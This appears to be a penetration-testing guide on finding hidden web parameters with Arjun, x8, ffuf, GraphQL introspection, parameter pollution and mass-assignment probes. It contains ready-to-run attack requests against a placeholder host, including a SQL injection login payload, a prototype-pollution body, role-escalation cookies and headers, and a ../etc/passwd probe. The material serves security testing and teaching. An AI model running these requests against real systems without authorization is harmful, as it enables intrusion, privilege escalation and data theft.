


# Parameter Discovery

> **Difficulty:** Beginner → Advanced | **Category:** Penetration Testing

**Parameter discovery** is the process of identifying hidden, undocumented, or non-obvious input parameters that a web application accepts. Parameters are the primary injection points in web security — every SQL injection, XSS, SSRF, and business logic flaw is triggered through a parameter. Finding the parameters that aren't visible in the UI, not documented in the API spec, and not present in client-side source code often leads to the most impactful vulnerabilities. This note covers every dimension of parameter discovery: GET, POST, JSON, XML, header, cookie, GraphQL, mass assignment, and parameter pollution.

---

## Table of Contents

1. [Why Hidden Parameters Exist](#why-hidden-parameters)
2. [Parameter Discovery Methodology](#methodology)
3. [GET Parameter Discovery with Arjun](#arjun)
4. [GET Parameter Discovery with x8](#x8)
5. [POST Body Parameter Discovery](#post-discovery)
6. [JSON and XML Parameter Fuzzing](#json-xml)
7. [Header-Based Parameter Injection](#header-parameters)
8. [Cookie Parameter Testing](#cookie-parameters)
9. [GraphQL Parameter Enumeration](#graphql)
10. [API Parameter Enumeration](#api-parameters)
11. [Parameter Pollution](#parameter-pollution)
12. [Mass Assignment Discovery](#mass-assignment)
13. [Parameter Discovery Flow](#workflow)

---

## Why Hidden Parameters Exist

Web applications accumulate hidden parameters through several natural processes:

| Cause | Example |
|---|---|
| **Legacy code** | Old admin parameters (`?debug=true`, `?admin=1`) never removed |
| **Feature flags** | Parameters that enable unreleased features (`?beta=1`, `?feature=newui`) |
| **Developer shortcuts** | `?role=admin`, `?bypass=true` added for testing |
| **Framework defaults** | Laravel, Rails, Spring add their own internal parameters |
| **Third-party integrations** | Payment, analytics, and auth services inject their own params |
| **A/B testing** | `?variant=b`, `?experiment=checkout_v2` |
| **Server-side rendering** | Parameters consumed server-side with no client-side trace |
| **Mass assignment** | ORM models accept more fields than the form exposes |

> **Note:** Hidden parameters are particularly dangerous because they often bypass standard input validation and authorization checks — they were never meant to be used externally.

---

## Parameter Discovery Methodology



### Identifying Response Differences

A parameter is considered "accepted" when the response differs from the baseline. Differences can be:

- **Status code change** (200 → 400 means input was processed and rejected)
- **Response body size change** (different content rendered)
- **Response time difference** (database query triggered = potential SQLi)
- **Redirect to different page** (parameter triggered routing logic)
- **New cookies or headers set**
- **Error message change** (verbose error reveals processing)

```bash
# Baseline measurement
curl -s "https://target.com/api/user?id=1" > baseline.txt
wc -c baseline.txt

# With extra param
curl -s "https://target.com/api/user?id=1&debug=true" > with_param.txt
wc -c with_param.txt

# Diff
diff baseline.txt with_param.txt
```

---

## GET Parameter Discovery with Arjun

**Arjun** (by s0md3v) is the most intelligent GET/POST parameter discovery tool. It uses heuristics to detect when a parameter is accepted based on response differences, not just status codes.

### Installation

```bash
# Via pip
pip3 install arjun

# Via pipx (isolated)
pipx install arjun

# From source
git clone https://github.com/s0md3v/Arjun
cd Arjun
pip3 install .
```

### Basic GET Parameter Discovery

```bash
# Single endpoint
arjun -u "https://target.com/search"

# With specific HTTP method
arjun -u "https://target.com/api/user" -m GET
arjun -u "https://target.com/api/user" -m POST
arjun -u "https://target.com/api/user" -m JSON
arjun -u "https://target.com/api/user" -m XML

# Higher thread count for speed
arjun -u "https://target.com/search" -t 10

# Increase chunk size (parameters tested at once)
arjun -u "https://target.com/search" --chunk-size 500

# With cookies (authenticated)
arjun -u "https://target.com/dashboard/profile" \
  -c "session=abc123; csrf_token=xyz" \
  -m GET

# With custom headers
arjun -u "https://target.com/api/v2/users" \
  -H "Authorization: Bearer eyJhbGci..." \
  -H "X-API-Key: secret123" \
  -m GET
```

### Arjun Batch Mode (Multiple Endpoints)

```bash
# Scan all endpoints from a file
arjun -i endpoints.txt -t 5 -o arjun_results.json

# endpoints.txt format — one URL per line:
# https://target.com/search
# https://target.com/api/user
# https://target.com/profile

# With delay to avoid rate limiting
arjun -i endpoints.txt -d 500 -t 5 -o results.json

# JSON input (with method specification)
cat > endpoints.json << 'EOF'
[
  {"url": "https://target.com/search", "method": "GET"},
  {"url": "https://target.com/api/login", "method": "POST"},
  {"url": "https://target.com/api/update", "method": "JSON"}
]
EOF
arjun -i endpoints.json -o arjun_results.json
```

### Arjun Custom Wordlists

```bash
# Use custom wordlist
arjun -u "https://target.com/search" \
  -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt

# Combine Arjun's default + SecLists
cat /root/.local/lib/python3.*/site-packages/arjun/db/large.txt \
    /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt | \
    sort -u > combined_params.txt

arjun -u "https://target.com/search" -w combined_params.txt
```

### Interpreting Arjun Results

```json
{
  "url": "https://target.com/search",
  "params": ["q", "page", "limit", "filter", "sort", "debug", "format"],
  "method": "GET"
}
```

- `q`, `page`, `limit` — expected search parameters
- `filter`, `sort` — possibly undocumented but functional
- **`debug`** — potential information disclosure, try `debug=true`, `debug=1`
- **`format`** — potential content-type confusion, try `format=xml`, `format=json`, `format=csv`

---

## GET Parameter Discovery with x8

**x8** is a hidden parameters discovery suite that focuses on finding parameters by detecting response changes.

### Installation

```bash
# From releases (Rust binary)
wget https://github.com/Sh1Yo/x8/releases/latest/download/x86_64-linux-x8.tar.gz
tar -xvf x86_64-linux-x8.tar.gz
sudo mv x8 /usr/local/bin/

# Or build from source
git clone https://github.com/Sh1Yo/x8
cd x8
cargo build --release
sudo cp target/release/x8 /usr/local/bin/
```

### Basic x8 Usage

```bash
# Basic GET parameter discovery
x8 -u "https://target.com/search" \
  -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt

# POST form-encoded
x8 -u "https://target.com/login" \
  -X POST \
  -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt

# JSON parameters
x8 -u "https://target.com/api/search" \
  -X POST \
  --data-type json \
  -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt

# With custom headers
x8 -u "https://target.com/api/v1/users" \
  -H "Authorization: Bearer TOKEN" \
  -H "Content-Type: application/json" \
  -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt

# Multiple URLs from file
x8 -u @urls.txt \
  -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt \
  -o x8_results.json

# Increase concurrency
x8 -u "https://target.com/search" \
  -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt \
  --concurrency 50

# Verbose mode
x8 -u "https://target.com/search" \
  -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt \
  -v
```

### x8 Configuration

```bash
# Save config for repeated testing
cat > x8_config.toml << 'EOF'
wordlist = "/opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt"
output = "x8_results.json"
concurrency = 30
delay = 100
headers = ["Authorization: Bearer TOKEN"]
EOF

x8 -u "https://target.com/search" --config x8_config.toml
```

### x8 vs Arjun Comparison

| Feature | Arjun | x8 |
|---|---|---|
| Language | Python | Rust |
| Speed | Medium | Fast |
| HTTP methods | GET, POST, JSON, XML | GET, POST, JSON, Headers |
| Batch processing | Yes (`-i` file) | Yes (`@` prefix) |
| Response analysis | Statistical | Heuristic diff |
| False positive rate | Low | Very low |
| Output format | JSON | JSON, CSV |
| Cookie support | Yes (`-c`) | Yes (`-H`) |
| Best for | Thorough discovery | Speed at scale |

---

## POST Body Parameter Discovery

Form-encoded POST bodies have their own discovery methodology.

### ffuf POST Parameter Fuzzing

```bash
# Form-encoded POST
ffuf -u "https://target.com/login" \
  -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=admin&password=test&FUZZ=test" \
  -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt \
  -mc 200,302,400,422 \
  -fw 42

# Find username parameter name (unknown field names)
ffuf -u "https://target.com/login" \
  -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "FUZZ=admin&password=test" \
  -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt \
  -mr "invalid password"  # match response containing this string

# Hidden parameters alongside known ones
ffuf -u "https://target.com/update_profile" \
  -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -b "session=abc123" \
  -d "name=test&email=test@test.com&FUZZ=test" \
  -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt \
  -mc all \
  -fc 404 \
  -fs 4096  # filter out baseline response size
```

### Multipart Form Parameter Discovery

```bash
# File upload endpoint parameter fuzzing
ffuf -u "https://target.com/upload" \
  -X POST \
  -H "Content-Type: multipart/form-data; boundary=----WebKitFormBoundary" \
  -d $'------WebKitFormBoundary\r\nContent-Disposition: form-data; name="FUZZ"\r\n\r\ntest\r\n------WebKitFormBoundary--' \
  -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt \
  -mc 200,201,400,422
```

---

## JSON and XML Parameter Fuzzing

Modern APIs typically use JSON bodies. Fuzzing JSON requires special handling.

### JSON Parameter Fuzzing

```bash
# JSON key fuzzing with ffuf
ffuf -u "https://target.com/api/user/update" \
  -X POST \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer TOKEN" \
  -d '{"FUZZ": "test_value"}' \
  -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt \
  -mc 200,201,400,422 \
  -fs 89  # filter baseline 404 size

# Nested JSON parameter fuzzing
ffuf -u "https://target.com/api/update" \
  -X POST \
  -H "Content-Type: application/json" \
  -d '{"user": {"FUZZ": "test"}}' \
  -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt \
  -mc 200,201,400

# Arjun JSON mode
arjun -u "https://target.com/api/user" \
  -m JSON \
  -H "Authorization: Bearer TOKEN"
```

### Python JSON Fuzzer

```python
#!/usr/bin/env python3
"""json_param_fuzzer.py — Fuzz JSON API parameters"""

import requests
import json
import sys
from concurrent.futures import ThreadPoolExecutor, as_completed

URL = "https://target.com/api/user/update"
HEADERS = {
    "Content-Type": "application/json",
    "Authorization": "Bearer TOKEN",
    "User-Agent": "Mozilla/5.0"
}
COOKIES = {"session": "abc123"}
BASELINE_VALUE = "test_fuzzer_baseline_xyz"

def get_baseline():
    resp = requests.post(URL, json={}, headers=HEADERS, cookies=COOKIES)
    return len(resp.text), resp.status_code

def test_param(param, baseline_size):
    try:
        payload = {param: BASELINE_VALUE}
        resp = requests.post(URL, json=payload, headers=HEADERS, cookies=COOKIES, timeout=10)
        size_diff = abs(len(resp.text) - baseline_size)
        if resp.status_code != 404 and size_diff > 20:
            return param, resp.status_code, len(resp.text), size_diff
    except Exception:
        pass
    return None

# Load wordlist
with open("/opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt") as f:
    params = [line.strip() for line in f if line.strip()]

baseline_size, baseline_code = get_baseline()
print(f"[*] Baseline: {baseline_size} bytes, {baseline_code}")

found = []
with ThreadPoolExecutor(max_workers=20) as executor:
    futures = {executor.submit(test_param, p, baseline_size): p for p in params}
    for future in as_completed(futures):
        result = future.result()
        if result:
            param, code, size, diff = result
            print(f"[FOUND] {param} → {code} | {size} bytes | Δ{diff}")
            found.append(param)

print(f"\n[+] Discovered parameters: {found}")
```

### XML Parameter Fuzzing

```bash
# XML parameter fuzzing with ffuf
ffuf -u "https://target.com/api/soap" \
  -X POST \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?><root><FUZZ>test</FUZZ></root>' \
  -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt \
  -mc 200,400,500

# SOAP body fuzzing (finding additional elements)
ffuf -u "https://target.com/soap/endpoint" \
  -X POST \
  -H "Content-Type: text/xml; charset=utf-8" \
  -H "SOAPAction: UserService" \
  -d '<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetUser>
      <userId>1</userId>
      <FUZZ>test</FUZZ>
    </GetUser>
  </soap:Body>
</soap:Envelope>' \
  -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt \
  -mc 200,500
```

---

## Header-Based Parameter Injection

Many applications process custom HTTP headers as functional parameters. These are frequently overlooked.

### Common Injection Headers

| Header | What It Does | Injection Value to Test |
|---|---|---|
| `X-Forwarded-For` | Proxied client IP | `127.0.0.1`, `192.168.1.1` |
| `X-Real-IP` | Real client IP | `127.0.0.1` |
| `X-Originating-IP` | Original client IP | `127.0.0.1` |
| `X-Custom-IP-Authorization` | IP-based authz | `127.0.0.1` |
| `X-Forwarded-Host` | Proxied hostname | `localhost`, attacker host |
| `X-Host` | Host override | `localhost` |
| `X-Original-URL` | URL override | `/admin` |
| `X-Rewrite-URL` | URL rewrite | `/admin` |
| `X-Forwarded-Prefix` | Path prefix | `/api/v2` |
| `X-API-Version` | API version | `2`, `internal`, `v2` |
| `X-Admin` | Admin flag | `true`, `1` |
| `X-Debug` | Debug mode | `true`, `1`, `enabled` |
| `X-Role` | Role override | `admin`, `superuser` |
| `X-User-ID` | User ID override | `1`, `0`, `admin` |
| `X-Internal` | Internal flag | `true` |

### Header Fuzzing

```bash
# Fuzz header values
ffuf -u "https://target.com/api/restricted" \
  -H "X-Forwarded-For: FUZZ" \
  -w /opt/SecLists/Fuzzing/IDOR/burp-parameter-names.txt \
  -mc 200,201,302

# Fuzz with IP addresses
ffuf -u "https://target.com/admin" \
  -H "X-Forwarded-For: FUZZ" \
  -w /opt/SecLists/Fuzzing/FUZZ-SQLi-union.txt \
  -mc 200

# Test common bypass headers manually
for header in "X-Forwarded-For: 127.0.0.1" "X-Real-IP: 127.0.0.1" \
              "X-Admin: true" "X-Role: admin" "X-Debug: true" \
              "X-Original-URL: /admin" "X-Rewrite-URL: /admin"; do
  echo -n "$header → "
  curl -s -o /dev/null -w "%{http_code}" \
    -H "$header" \
    "https://target.com/admin"
  echo
done
```

---

## Cookie Parameter Testing

Cookies are parameters too — many applications derive business logic from cookie values.

```bash
# Enumerate cookie parameters with ffuf
ffuf -u "https://target.com/dashboard" \
  -b "session=FUZZ" \
  -w /opt/SecLists/Passwords/Common-Credentials/10k-most-common.txt \
  -mc 200 \
  -fc 302,401

# Test boolean cookie flags
for val in true false 1 0 yes no enabled disabled admin user; do
  echo -n "debug=$val → "
  curl -s -o /dev/null -w "%{http_code}" \
    -b "session=validtoken; debug=$val" \
    "https://target.com/dashboard"
  echo
done

# Cookie manipulation for role escalation
curl -s https://target.com/profile \
  -b "session=abc123; role=admin"
curl -s https://target.com/profile \
  -b "session=abc123; isAdmin=true"
curl -s https://target.com/profile \
  -b "session=abc123; user_type=superadmin"

# JWT cookie manipulation
# Decode JWT (base64)
echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiam9obiIsInJvbGUiOiJ1c2VyIn0.SIG" | \
  python3 -c "import sys,base64,json; parts=sys.stdin.read().strip().split('.'); \
  print(json.dumps(json.loads(base64.urlsafe_b64decode(parts[1]+'=='))))"
```

---

## GraphQL Parameter Enumeration

GraphQL has its own parameter discovery paradigm — the schema *is* the parameter list.

### Full Introspection Methodology

```bash
# Step 1: Confirm GraphQL is available
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "{ __typename }"}' | python3 -m json.tool

# Step 2: Full schema dump
INTROSPECTION_QUERY='{"query":"query IntrospectionQuery{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}"}'

curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d "$INTROSPECTION_QUERY" > schema.json

# Step 3: Extract all queries
cat schema.json | python3 -c "
import json, sys
data = json.load(sys.stdin)
schema = data.get('data', {}).get('__schema', {})
types = {t['name']: t for t in schema.get('types', [])}

for qtype in ['queryType', 'mutationType']:
    tname = schema.get(qtype, {})
    if tname:
        t = types.get(tname.get('name', ''), {})
        print(f'=== {qtype.upper()} ===')
        for field in t.get('fields', []) or []:
            args = [f\"{a['name']}:{a['type'].get('name') or a['type'].get('ofType',{}).get('name','')}\" 
                    for a in (field.get('args') or [])]
            print(f\"  {field['name']}({', '.join(args)})\")
"

# Step 4: Probe for disabled introspection workaround
# If __schema is blocked, try field suggestion
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "{ user { FUZZ } }"}' | grep "Did you mean"
# GraphQL error messages reveal valid field names

# Step 5: Test deprecated fields
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "{ user { id email password_hash internal_notes admin_flag } }"}'

# GraphQL batch attack (test multiple queries)
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '[
    {"query": "{ user(id: 1) { email } }"},
    {"query": "{ user(id: 2) { email } }"},
    {"query": "{ admin { users { email password } } }"}
  ]'
```

### GraphQL Tools

```bash
# graphql-cop — security audit
graphql-cop -t https://target.com/graphql

# clairvoyance — field discovery without introspection
python3 -m clairvoyance \
  -o schema.json \
  "https://target.com/graphql" \
  --wordlist /opt/SecLists/Discovery/Web-Content/graphql.txt

# InQL (Burp extension) — generate all possible queries from schema
# Export schema from introspection then feed to InQL
```

---

## API Parameter Enumeration

REST and other APIs have parameters in multiple locations: path variables, query strings, request body, and headers.

### Path Variable Discovery

```bash
# Discover numeric IDs (IDOR testing)
ffuf -u "https://target.com/api/user/FUZZ" \
  -w <(seq 1 10000) \
  -mc 200,201 \
  -t 100

# UUID enumeration (less common, but some patterns exist)
# Generate UUID wordlist with Python
python3 -c "
import uuid
for i in range(1000):
    print(uuid.uuid4())
" > uuid_list.txt

ffuf -u "https://target.com/api/document/FUZZ" \
  -w uuid_list.txt \
  -mc 200

# Discover path parameter names (e.g., /api/FUZZ/123)
ffuf -u "https://target.com/api/FUZZ/1" \
  -w /opt/SecLists/Discovery/Web-Content/api/api-endpoints.txt \
  -mc 200,201,204,400

# Multi-position fuzzing (discover both endpoint and ID)
ffuf -u "https://target.com/api/W1/W2" \
  -w /opt/SecLists/Discovery/Web-Content/api/objects.txt:W1 \
  -w <(seq 1 100):W2 \
  -mc 200,201
```

### REST API Parameter Patterns

```bash
# Common REST API query parameters to always test
API_URL="https://target.com/api/users"

# Filtering
curl -s "$API_URL?filter=all" | python3 -m json.tool
curl -s "$API_URL?status=active"
curl -s "$API_URL?role=admin"
curl -s "$API_URL?type=internal"

# Pagination and scope
curl -s "$API_URL?limit=1000"      # Oversize limit
curl -s "$API_URL?page=0"          # Zero-based pagination
curl -s "$API_URL?offset=-1"       # Negative offset
curl -s "$API_URL?per_page=10000"  # Large page size

# Output format
curl -s "$API_URL?format=json"
curl -s "$API_URL?format=xml"
curl -s "$API_URL?format=csv"
curl -s "$API_URL?callback=test"   # JSONP
curl -s "$API_URL?_=timestamp"     # Cache busting

# Include hidden fields
curl -s "$API_URL?include=all"
curl -s "$API_URL?fields=*"
curl -s "$API_URL?expand=all"
curl -s "$API_URL?verbose=true"
curl -s "$API_URL?debug=true"
curl -s "$API_URL?_method=DELETE"  # HTTP method override
```

---

## Parameter Pollution

**HTTP Parameter Pollution (HPP)** occurs when multiple values for the same parameter are supplied. Depending on the backend technology, different values may take precedence.

### HTTP Parameter Pollution Testing

```bash
# GET HPP
curl "https://target.com/transfer?amount=100&amount=0.01"
curl "https://target.com/api/user?id=1&id=2"

# POST HPP
curl -X POST "https://target.com/transfer" \
  -d "amount=100&to=victim&amount=0.01"

# Mixed GET+POST HPP
curl "https://target.com/transfer?amount=100" \
  -X POST \
  -d "amount=0.01&to=victim"
```

### How Different Backends Handle Duplicate Parameters

| Technology | Behavior for `a=1&a=2` | Impact |
|---|---|---|
| PHP | `$_GET['a']` = `"2"` (last wins) | Backend uses 2, WAF validated 1 |
| ASP.NET | `Request["a"]` = `"1,2"` (concatenated) | Comma injection possible |
| JSP/Java | `request.getParameter("a")` = `"1"` (first) | Bypass if WAF sees last |
| Node.js (express) | `req.query.a` = `["1","2"]` (array) | Array type confusion |
| Python (Django) | `request.GET['a']` = `"2"` (last) | Similar to PHP |
| Ruby on Rails | `params[:a]` = `["1","2"]` (array) | Depends on usage |

```bash
# Test HPP against login
curl -X POST "https://target.com/login" \
  -d "username=admin&password=wrong&password='+OR+1=1--"

# API HPP for role escalation
curl "https://target.com/api/account?role=user&role=admin"

# HPP for authorization bypass
curl "https://target.com/api/data?user_id=2&user_id=1"
```

---

## Mass Assignment Discovery

**Mass assignment** is a vulnerability where an API or web framework automatically binds HTTP request parameters to internal model attributes, allowing attackers to set fields they shouldn't be able to — like `role`, `isAdmin`, `verified`, `balance`.

### Identifying Mass Assignment Vulnerabilities

```bash
# Step 1: Register/update endpoint with extra fields
curl -X POST "https://target.com/api/register" \
  -H "Content-Type: application/json" \
  -d '{
    "username": "testuser",
    "email": "test@test.com",
    "password": "Test1234!",
    "role": "admin",
    "isAdmin": true,
    "verified": true,
    "credits": 99999
  }'

# Step 2: Profile update endpoint
curl -X PUT "https://target.com/api/user/profile" \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer USER_TOKEN" \
  -d '{
    "name": "Test User",
    "bio": "Updated",
    "role": "admin",
    "is_staff": true,
    "email_verified": true,
    "subscription_tier": "enterprise"
  }'

# Step 3: Discover model fields from API responses
# GET /api/user/me might return:
# {"id": 1, "username": "test", "email": "t@t.com", "role": "user",
#  "credits": 0, "is_verified": false, "subscription": "free"}
# → Try setting ALL these in POST/PUT requests

# Step 4: Generate parameter list from API response fields
curl -s -H "Authorization: Bearer TOKEN" "https://target.com/api/user/me" | \
  python3 -c "
import json, sys
data = json.load(sys.stdin)
def extract_keys(obj, prefix=''):
    keys = []
    if isinstance(obj, dict):
        for k, v in obj.items():
            keys.append(f'{prefix}{k}')
            keys.extend(extract_keys(v, f'{prefix}{k}.'))
    return keys
print('\n'.join(extract_keys(data)))
"
```

### Mass Assignment in Different Frameworks

```bash
# Laravel (PHP) — check for $fillable vs $guarded in models
# Vulnerable: $guarded = [] or mass assignment not protected

# Ruby on Rails — permit() whitelist bypass
curl -X PATCH "https://target.com/users/1" \
  -d "user[role]=admin&user[admin]=true&user[is_superuser]=1"

# Django REST Framework — check serializer fields
# extra_kwargs or read_only_fields may not protect all fields

# Spring Boot — @RequestBody without @JsonIgnore
curl -X POST "https://target.com/api/users" \
  -H "Content-Type: application/json" \
  -d '{"username":"test","password":"test","authorities":["ROLE_ADMIN"]}'

# Node.js Express + Mongoose — whitelist bypasses
curl -X PUT "https://target.com/api/user/123" \
  -H "Content-Type: application/json" \
  -d '{"name":"test","__proto__":{"admin":true}}'  # prototype pollution attempt
```

### Automated Mass Assignment Testing

```bash
# Arjun for mass assignment discovery
arjun -u "https://target.com/api/register" \
  -m JSON \
  -w /opt/SecLists/Discovery/Web-Content/api/mass-assignment-params.txt

# Custom mass assignment wordlist
cat > mass_assignment_params.txt << 'EOF'
admin
isAdmin
is_admin
role
roles
user_role
permission
permissions
verified
is_verified
email_verified
active
is_active
enabled
suspended
banned
credits
balance
subscription
subscription_type
plan
tier
staff
is_staff
superuser
is_superuser
password_hash
api_key
token
access_token
internal
EOF

arjun -u "https://target.com/api/register" \
  -m JSON \
  -w mass_assignment_params.txt
```

---

## Parameter Discovery Flow



### Parameter Vulnerability Mapping

| Parameter Type | Primary Vulnerability to Test |
|---|---|
| `id`, `user_id`, `doc_id` | Insecure Direct Object Reference (IDOR) |
| `url`, `path`, `redirect`, `next` | Open Redirect, SSRF |
| `query`, `search`, `q` | SQLi, XSS, NoSQL injection |
| `template`, `view`, `page` | Server-Side Template Injection (SSTI), LFI |
| `file`, `filename`, `attachment` | Path traversal, LFI, RFI |
| `callback`, `jsonp` | JSONP hijacking, XSS |
| `debug`, `test`, `verbose` | Information disclosure |
| `role`, `admin`, `isAdmin` | Privilege escalation |
| `token`, `api_key`, `secret` | Credential exposure |
| `email`, `username`, `user` | User enumeration, account takeover |
| `amount`, `price`, `quantity` | Business logic manipulation |

> **Warning:** When testing parameters for vulnerabilities, always use safe test values first (e.g., `' `, `{{7*7}}`, `../etc/passwd`) to confirm the parameter is processed before escalating to more impactful payloads. Destructive payloads in production environments can be out-of-scope and career-ending.
